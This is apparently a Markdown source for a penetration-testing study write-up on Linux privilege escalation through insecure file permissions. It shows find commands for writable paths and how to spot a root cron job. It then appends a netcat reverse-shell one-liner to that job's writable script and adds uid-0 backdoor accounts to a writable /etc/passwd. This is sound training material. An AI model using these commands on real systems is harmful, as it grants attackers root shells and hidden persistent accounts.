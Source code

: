 ```yaml
---
description: >-
  Insecure File Permissions
title: Insecure File Permissions              # Add title here
date: 2022-11-09 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - Insecure File Permissions]                     # Change Templates to Writeup
tags: [file transfer, insecure file permissions, linux privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Writable and executable file
In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. Useful commands are:
```bash
find / -perm -0002 -type d 2>/dev/null
find / -perm -0020 -type d 2>/dev/null
```

On a Linux system, the cron time-based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

For the purpose of this example, we will SSH to our dedicated Debian client. In a previous section, we showed where to look on the filesystem for installed cron jobs on a target system. We could also inspect the cron log file (/var/log/cron.log) for running cron jobs:

```bash
student@debian:~$ grep "CRON" /var/log/cron.log
Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)
Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)
...
Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:50:01 victim CRON[2631]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:55:01 victim CRON[2656]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
```

No that we know the location of the script, we can inspect its contents and permissions.
```bash
student@debian:~$ cat /var/scripts/user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/

student@debian:~$ ls -lah /var/scripts/user_backups.sh 
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
```

Since an unprivileged user can modify the contents of the backup script, we can edit it and add a reverse shell one-line. If our plan works, we should receive a root-level reverse shell on our attacking machine after, at most, a five minute period.

```bash
student@debian:/var/scripts$ echo >> user_backups.sh 

student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

student@debian:/var/scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```

### /etc/passwd

If the /etc/passwd file has writable permission we can add a line to /etc/passwd using the appropriate format:

```bash
student@debian:~$ openssl passwd evil
AK24fcSx2Il3I

student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd

student@debian:~$ su root2
Password: evil

root@debian:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Secondary Option:
```bash
openssl passwd -1 -salt doom doom
    
echo 'doom:$1$doom$m/meYVrO7ZsSmCo1/p4v..:0:0:Hacker:/root:/bin/bash' >> /etc/passwd
```
